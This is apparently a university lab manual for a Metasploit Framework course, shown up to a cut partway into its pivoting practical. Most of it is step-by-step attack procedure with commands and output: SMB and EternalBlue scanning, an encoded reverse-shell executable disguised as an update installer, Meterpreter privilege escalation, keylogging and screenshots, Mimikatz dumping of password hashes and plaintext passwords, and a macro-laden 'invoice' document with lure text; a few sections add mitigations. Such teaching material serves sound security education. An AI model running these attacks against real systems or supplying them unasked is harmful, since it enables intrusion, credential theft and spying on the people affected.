










:::info[LABORATORY MANUAL OVERVIEW]
- **Course Title:** Metasploit Framework Laboratory
- **Course Code:** 303105325
- **Department:** Computer Science and Engineering
- **Semester:** 5th Semester
- **Academic Session:** 2026-27
:::

## Practical Assessment Index

| Sr. No. | Experiment Title | Operational Focus / Domain | Key Commands & Modules |
| :---: | :--- | :--- | :--- |
| 1 | Metasploit Framework Installation | Deployment on Windows & Kali Linux | `msfupdate`, `msfdb init`, `msfconsole` |
| 2 | Metasploit Architecture & CLI Commands | Core Modules, Rex Library & Navigation | `show`, `search`, `use`, `set`, `info` |
| 3 | Database Integration & Workspace Management | PostgreSQL Configuration & Recon Isolation | `db_status`, `workspace`, `db_nmap`, `hosts` |
| 4 | Network Reconnaissance & SMB Scanning | Service Fingerprinting & Vulnerability Scanning | `auxiliary/scanner/smb/smb_version`, `ms17_010` |
| 5 | Payload Generation & Exploitation with msfvenom | Staged Reverse Payloads & Multi-Handler | `msfvenom`, `exploit/multi/handler`, `Meterpreter` |
| 6 | Post-Exploitation via Meterpreter | Privilege Escalation, Dumping & System Auditing | `sysinfo`, `getsystem`, `keyscan`, `screenshot` |
| 7 | Windows Credential Dumping with Mimikatz | LSASS & SAM In-Memory Hash Extraction | `load kiwi`, `hashdump`, `creds_all` |
| 8 | Client-Side Attacks via Malicious Office Macros | Weaponized Documents & Social Engineering | `exploit/windows/fileformat/office_word_macro` |
| 9 | Network Pivoting & Lateral Movement | Routing Through Compromised Hosts | `route add`, `portfwd`, `autoroute`, `socks_proxy` |
| 10 | Cloud & Server Exploitation (Metasploitable) | Backdoor Exploitation & Root Shell Acquisition | `nmap -sV`, `vsftpd_234_backdoor`, `usermap_script` |

## 1. Practical 1: Metasploit Framework Installation

### 1.1 Aim
- Install, configure, and initialize the Metasploit Framework and its backend database on Windows and Linux (Kali Linux) environments.

### 1.2 Theory & Core Concepts
- **Metasploit Framework (MSF)**: The world's most widely used penetration testing platform, maintained by Rapid7 and the open-source community. It provides tools for vulnerability scanning, exploit execution, payload creation, and post-exploitation data gathering.
- **Components Installed**:
  - `msfconsole`: The primary interactive command-line interface.
  - `msfvenom`: Standalone payload generator and shellcode encoder.
  - `msfdb`: Utility to manage the backend PostgreSQL database.
- **Antivirus Coexistence**: Metasploit contains thousands of real exploit signatures and compiled binaries. Testing systems must configure exclusions or disable real-time protection to prevent payload deletion.



### 1.3 Step-by-Step Installation

#### 1.3.1 Installation on Linux (Debian / Kali)
1. Kali Linux comes with Metasploit pre-installed. To update to the latest release:
   ```bash
   sudo apt update && sudo apt install -y metasploit-framework
   ```
2. On standard Linux distributions (Ubuntu/Debian), install using the Rapid7 omnibus script:
   ```bash showLineNumbers
   curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall
   chmod 755 msfinstall
   ./msfinstall
   ```
3. Initialize the backend database:
   ```bash
   sudo msfdb init
   ```
4. Launch the console:
   ```bash
   msfconsole -q
   ```

#### 1.3.2 Installation on Windows
1. Download the official installer from the Rapid7 Metasploit repository.
2. Add an antivirus exclusion folder (e.g., `C:\metasploit\`) before running the installer.
3. Run the installer as Administrator, accept the license agreement, and complete the wizard.
4. Launch the **Metasploit Command Prompt** and run `msfconsole`.

### 1.4 Conclusion
- Successfully installed and verified Metasploit Framework on both host and virtualized environments, establishing an operational database connection.

## 2. Practical 2: Metasploit Architecture & CLI Commands

### 2.1 Aim
- Study the modular software architecture of the Metasploit Framework through the command-line interface and master primary navigational commands.

### 2.2 Theory & Architectural Components
- **Metasploit Architecture Layers**:
  - **User Interfaces**: `msfconsole` (flagship CLI), `msfvenom` (payload generator), `Armitage` (GUI), Web interfaces.
  - **Metasploit Core**: Handles session orchestration, event management, and plugin extensions.
  - **Rex (Ruby Extension Library)**: Handles low-level network sockets, client/server protocol implementations (SMB, HTTP, SSL), and text parsing.
  - **Modules**:
    1. **Exploits**: Code targeting a specific software bug to deliver a payload (Remote vs. Local).
    2. **Payloads**: Code executed on the compromised system. Categorized into:
       - *Singles (Inline)*: Self-contained independent executables.
       - *Stagers*: Small stubs establishing a connection to download the larger stage.
       - *Stages*: Advanced payload engines (e.g., Meterpreter, VNC injection).
    3. **Auxiliary**: Non-payload tools including scanners, fuzzers, and sniffers.
    4. **Post**: Post-exploitation scripts for enumeration and credential harvesting.
    5. **Encoders**: Obfuscate payloads to eliminate bad characters (e.g., `\x00` null bytes) and bypass basic signature detection (`x86/shikata_ga_nai`).
    6. **NOPs**: Generate NOP sleds for buffer overflow memory alignment.
    7. **Evasion**: Modules built to evade antivirus and endpoint detection rules.



### 2.3 Essential Navigation Commands
```bash showLineNumbers
# Display interactive banner and version
banner
version

# Search for modules across keywords, CVEs, or platforms
search type:exploit platform:windows smb
search cve:2017-010

# Load a module
use exploit/windows/smb/ms17_010_eternalblue

# View module metadata and required options
info
show options
show payloads

# Set configuration parameters
set RHOSTS 192.168.1.100
set LHOST 192.168.1.50
setg LHOST 192.168.1.50  # Globally set variable

# Execute the module
run
exploit

# Return to root console
back
```

### 2.4 Conclusion
- Explored the modular structure of Metasploit. Understanding the separation between exploits, payloads, and auxiliary scanners enables systematic vulnerability testing.

## 3. Practical 3: Database Integration & Workspace Management

### 3.1 Aim
- Configure PostgreSQL database integration in Metasploit and organize target data across isolated workspaces.

### 3.2 Theory & Core Concepts
- **Database Benefits in MSF**:
  - Dramatic speedup in module searches via cached database indexing.
  - Automatically captures and retains host IP addresses, open ports, service banners, discovered vulnerabilities, and looted credentials.
  - Enables direct execution of network scans (`db_nmap`) without leaving `msfconsole`.
- **Workspaces**:
  - Act as logical compartments or project boundaries. Data collected in `Workspace_A` is completely isolated from `Workspace_B`, preventing cross-contamination during multi-target assessments.



### 3.3 Step-by-Step Implementation

1. **Verify Database Connection**:
   - Inside `msfconsole`:
     ```text
     msf6 > db_status
     [*] Connected to msf. Connection type: postgresql.
     ```

2. **Managing Workspaces**:
   - List active workspaces:
     ```text
     msf6 > workspace
     * default
     ```
   - Create and switch to a new project workspace:
     ```text
     msf6 > workspace -a Internal_PenTest
     [*] Added workspace: Internal_PenTest
     [*] Workspace: Internal_PenTest
     ```
   - Switch between workspaces:
     ```text
     msf6 > workspace default
     msf6 > workspace Internal_PenTest
     ```

3. **Running Integrated Database Scans (`db_nmap`)**:
   - Execute Nmap directly to record discovered hosts into the database:
     ```text
     msf6 > db_nmap -sV -sS -O 192.168.1.0/24
     ```

4. **Querying Database Records**:
   - View discovered alive hosts:
     ```text
     msf6 > hosts
     ```
   - View open services and port banners:
     ```text
     msf6 > services -p 445,80,22
     ```
   - View harvested credentials and vulnerabilities:
     ```text
     msf6 > creds
     msf6 > vulns
     ```

### 3.4 Conclusion
- Integrated PostgreSQL with Metasploit and organized scan data using workspaces. The database backend centralizes intelligence gathering and allows streamlined targeting across large IP ranges.

## 4. Practical 4: Network Reconnaissance & SMB Scanning

### 4.1 Aim
- Perform network reconnaissance and service enumeration on the Server Message Block (SMB) protocol using Metasploit auxiliary scanner modules.

### 4.2 Theory & Core Concepts
- **Server Message Block (SMB)**: A client-server communication protocol operating over TCP port 445 (and NetBIOS over port 139) used for sharing files, printers, and IPC communication in Windows networks.
- **Security Implications**:
  - Legacy implementations frequently suffer from critical remote code execution vulnerabilities (e.g., MS08-067, EternalBlue MS17-010, SMBGhost CVE-2020-0796).
  - Unauthenticated share enumeration leaks sensitive files, backups, and user lists.



### 4.3 Step-by-Step Implementation

1. **SMB Version Fingerprinting**:
   ```text showLineNumbers
   msf6 > use auxiliary/scanner/smb/smb_version
   msf6 auxiliary(scanner/smb/smb_version) > set RHOSTS 192.168.1.0/24
   msf6 auxiliary(scanner/smb/smb_version) > set THREADS 10
   msf6 auxiliary(scanner/smb/smb_version) > run
   ```
   - Identifies exact Windows operating system versions, build numbers, and SMB dialect levels.

2. **Enumerating Open Network Shares**:
   ```text showLineNumbers
   msf6 > use auxiliary/scanner/smb/smb_enumshares
   msf6 auxiliary(scanner/smb/smb_enumshares) > set RHOSTS 192.168.1.105
   msf6 auxiliary(scanner/smb/smb_enumshares) > run
   ```
   - Lists shared folders (`C$`, `ADMIN$`, `IPC$`, `SharedFiles`) and reports read/write access permissions.

3. **Scanning for EternalBlue (MS17-010)**:
   ```text showLineNumbers
   msf6 > use auxiliary/scanner/smb/smb_ms17_010
   msf6 auxiliary(scanner/smb/smb_ms17_010) > set RHOSTS 192.168.1.105
   msf6 auxiliary(scanner/smb/smb_ms17_010) > run
   [*] 192.168.1.105:445 - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1
   ```

### 4.4 Conclusion
- Successfully fingerprinted SMB services, enumerated exposed network shares, and detected high-severity vulnerabilities like MS17-010 using auxiliary scanners without deploying intrusive payloads.

## 5. Practical 5: Payload Generation & Exploitation with msfvenom

### 5.1 Aim
- Generate an obfuscated standalone reverse shell executable using `msfvenom`, configure a multi-handler in Metasploit, and achieve an interactive Meterpreter session on a Windows target.

### 5.2 Theory & Core Concepts
- **`msfvenom`**: A command-line utility combining payload creation (`msfpayload`) and payload encoding (`msfencode`).
- **Staged vs. Inline (Single) Payloads**:
  - `windows/meterpreter/reverse_tcp` (Staged): Employs a tiny initial stager (`~300 bytes`) to connect back to the attacker and inject the complete reflective DLL into RAM.
  - `windows/meterpreter_reverse_tcp` (Inline): Employs a monolithic binary containing the entire Meterpreter engine in one package.
- **Reflective DLL Injection**: Meterpreter runs entirely in volatile system memory (RAM) without writing executable files to disk, avoiding file-based antivirus signatures.



### 5.3 Step-by-Step Implementation

1. **Payload Generation with `msfvenom`**:
   - Generate a 32-bit Windows reverse TCP Meterpreter executable encoded with `x86/shikata_ga_nai`:
     ```bash showLineNumbers
     msfvenom -p windows/meterpreter/reverse_tcp \
              LHOST=192.168.1.50 \
              LPORT=4444 \
              -e x86/shikata_ga_nai \
              -i 5 \
              -f exe \
              -o update_installer.exe
     ```

2. **Configure Multi-Handler Listener in Metasploit**:
   ```text showLineNumbers
   msf6 > use exploit/multi/handler
   msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
   msf6 exploit(multi/handler) > set LHOST 192.168.1.50
   msf6 exploit(multi/handler) > set LPORT 4444
   msf6 exploit(multi/handler) > exploit -j
   [*] Exploit running as background job 0.
   [*] Started reverse TCP handler on 192.168.1.50:4444
   ```

3. **Execution & Session Acquisition**:
   - Transfer and execute `update_installer.exe` on the Windows virtual machine.
   - The handler intercepts the connection and establishes the session:
     ```text
     [*] Sending stage (177734 bytes) to 192.168.1.105
     [*] Meterpreter session 1 opened (192.168.1.50:4444 -> 192.168.1.105:49158)
     ```
   - Interact with the session:
     ```text
     msf6 > sessions -i 1
     meterpreter >
     ```

### 5.4 Conclusion
- Created a standalone reverse TCP binary and captured an in-memory Meterpreter session using Metasploit's generic payload handler.

## 6. Practical 6: Post-Exploitation via Meterpreter

### 6.1 Aim
- Perform post-exploitation operations through an established Meterpreter session, including system reconnaissance, process migration, privilege escalation, and credential auditing.

### 6.2 Theory & Core Concepts
- **Meterpreter Capabilities**:
  - Operates dynamically via in-memory shared libraries (`ext_server_stdapi.dll`).
  - Capable of migrating its execution context into legitimate system processes (e.g., `explorer.exe`, `svchost.exe`) to maintain session stability and evade detection.
- **Privilege Escalation**:
  - Escalating privileges from a standard local user account to `NT AUTHORITY\SYSTEM` using named pipe impersonation or token duplication (`getsystem`).



### 6.3 Command Execution & Post-Exploitation

```bash showLineNumbers
# 1. System Reconnaissance
meterpreter > sysinfo
# OS: Windows 7 (6.1 Build 7601, Service Pack 1), Arch: x64

meterpreter > getuid
# Server username: Victim-PC\User

# 2. Process Migration
meterpreter > ps
meterpreter > migrate 1844   # Migrates into explorer.exe PID

# 3. Privilege Escalation
meterpreter > getsystem
# ...got system via technique 1 (Named Pipe Impersonation).
meterpreter > getuid
# Server username: NT AUTHORITY\SYSTEM

# 4. Spying & Monitoring
meterpreter > screenshot     # Captures target desktop as JPEG
meterpreter > keyscan_start  # Initiates in-memory keylogger
meterpreter > keyscan_dump   # Dumps captured keystrokes
meterpreter > keyscan_stop

# 5. Native Command Shell Access
meterpreter > shell
C:\Windows\system32> whoami
# nt authority\system
C:\Windows\system32> exit
```

### 6.4 Conclusion
- Demonstrated comprehensive post-exploitation capabilities. Process migration ensures persistence, while `getsystem` achieves complete administrative compromise.

## 7. Practical 7: Windows Credential Dumping with Mimikatz

### 7.1 Aim
- Extract plaintext passwords, Kerberos tickets, and NTLM password hashes directly from Windows system memory using the Mimikatz (Kiwi) extension in Metasploit.

### 7.2 Theory & Core Concepts
- **Windows Credential Architecture**:
  - **SAM (Security Account Manager)**: Registry database storing local user NTLM hashes (`C:\Windows\System32\config\SAM`).
  - **LSASS (Local Security Authority Subsystem Service)**: Windows process (`lsass.exe`) responsible for enforcing security policies, managing user logins, and caching credentials in RAM for Single Sign-On (SSO).
- **Mimikatz (Kiwi Extension)**:
  - Developed by Benjamin Delpy. Reads plaintext passwords, PINs, and NTLM hashes cached inside the memory space of `lsass.exe`.
  - Requires `NT AUTHORITY\SYSTEM` privileges and identical process architecture (64-bit Meterpreter for 64-bit OS).



### 7.3 Step-by-Step Implementation

1. **Elevation & Architecture Verification**:
   ```text showLineNumbers
   meterpreter > getsystem
   meterpreter > sysinfo
   # Ensure Meterpreter is x64/windows when targeting a 64-bit OS
   ```

2. **Load Kiwi Extension**:
   ```text showLineNumbers
   meterpreter > load kiwi
   Loading extension kiwi...
     .#####.   mimikatz 2.2.0 20191125 (x64/windows)
    .## ^ ##.  "A La Vie, A L'Amour" - (http://blog.gentilkiwi.com/mimikatz)
    Success.
   ```

3. **Dumping SAM Database Hashes**:
   ```text showLineNumbers
   meterpreter > lsa_dump_sam
   [+] Outputting local SAM hashes:
   Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
   User:1000:aad3b435b51404eeaad3b435b51404ee:8846f7eaee8fb117ad06bdd830b7586c:::
   ```

4. **Extracting In-Memory Plaintext Passwords (`creds_all`)**:
   ```text showLineNumbers
   meterpreter > creds_all
   [+] Retrieving all credentials from LSASS...
   wdigest credentials:
   Username  Domain     Password
   --------  ------     --------
   User      Victim-PC  Password123!
   ```

### 7.4 Mitigation Strategies
- Disable WDigest credential caching in the Windows Registry (`UseLogonCredential = 0`).
- Enable **LSA Protection** (`RunAsPPL = 1`) to block non-protected processes from reading `lsass.exe` memory.
- Implement Credential Guard on modern Windows installations.

### 7.5 Conclusion
- Successfully dumped plaintext credentials and NTLM password hashes from memory using the Kiwi extension. Disabling legacy authentication protocols and enabling LSA Protection mitigates memory scraping attacks.

## 8. Practical 8: Client-Side Attacks via Malicious Office Macros

### 8.1 Aim
- Weaponize a Microsoft Office document (`.docm` / `.xlsm`) using Metasploit's embedded VBA macro exploit module to establish a remote reverse shell upon execution.

### 8.2 Theory & Core Concepts
- **VBA Macro Exploitation**:
  - Microsoft Office supports Visual Basic for Applications (VBA) macros to automate tasks.
  - Attackers deliver documents containing macros programmed to execute shellcode or launch PowerShell downloaders upon document opening (`AutoOpen`, `Workbook_Open`).
  - Relies heavily on social engineering prompts (e.g., *"Click 'Enable Content' to view encrypted invoice"*).



### 8.3 Step-by-Step Implementation

1. **Configuring the Macro Exploit Module**:
   ```text showLineNumbers
   msf6 > use exploit/windows/fileformat/office_word_macro
   msf6 exploit(windows/fileformat/office_word_macro) > set LHOST 192.168.1.50
   msf6 exploit(windows/fileformat/office_word_macro) > set LPORT 4444
   msf6 exploit(windows/fileformat/office_word_macro) > set FILENAME Invoice_Q3.docm
   msf6 exploit(windows/fileformat/office_word_macro) > exploit
   ```
   - Metasploit outputs the generated `.docm` document or provides the raw VBA macro script:
     ```text
     [+] Invoice_Q3.docm stored at /root/.msf4/local/Invoice_Q3.docm
     ```

2. **Starting the Multi-Handler**:
   ```text showLineNumbers
   msf6 > use exploit/multi/handler
   msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
   msf6 exploit(multi/handler) > set LHOST 192.168.1.50
   msf6 exploit(multi/handler) > set LPORT 4444
   msf6 exploit(multi/handler) > exploit
   ```

3. **Victim Execution & Trigger**:
   - The document is opened on the target machine. When the user clicks **Enable Content**, the macro executes in the user context, establishing a Meterpreter reverse shell session.

### 8.4 Mitigation Strategies
- Block macros in Office files downloaded from the internet using Group Policy (GPO).
- Configure Microsoft Defender Attack Surface Reduction (ASR) rules: *"Block Office applications from creating child processes"*.

### 8.5 Conclusion
- Proved that social engineering and macro execution remain an effective initial access vector, highlighting the importance of disabling macro execution across enterprise environments.

## 9. Practical 9: Network Pivoting & Lateral Movement

### 9.1 Aim
- Leverage a compromised host as a pivot point to route traffic and execute reconnaissance and exploitation across an isolated, non-routable internal network subnet.

### 9.2 Theory & Core Concepts
- **Network Pivoting**: The technique of channeling traffic through an initial compromised machine (dual-homed pivot) into internal network segments inaccessible directly from the attacker's machine.
- **Pivoting Techniques in Metasploit**:
  - **Autoroute (`post/multi/manage/autoroute`)**: Injects internal subnets into Metasploit's internal routing table so that all framework modules can communicate with internal IPs through the active Meterpreter session.
  - **Port Forwarding (`portfwd`)**: Bridges specific local ports on the attacker's workstation to remote internal ports behind the pivot.
  - **SOCKS Proxy (`auxiliary/server/socks_proxy`)**: Exposes an internal SOCKS4a/5 proxy, allowing external tools (e.g., Nmap, browser) to route traffic via `proxychains`.



### 9.3 Step-by-Step Implementation

1. **Discover Internal Subnets on Compromised Host**:
   ```text showLineNumbers
   meterpreter > run get_local_subnets
   # Local Subnets:
   #   192.168.1.0/255.255.255.0 (External Interface)
   #   10.0.0.0/255.255.255.0     (Internal Interface)
   ```

2. **Add Routing via Autoroute**:
   ```text showLineNumbers
   meterpreter > background
   msf6 > use post/multi/manage/autoroute
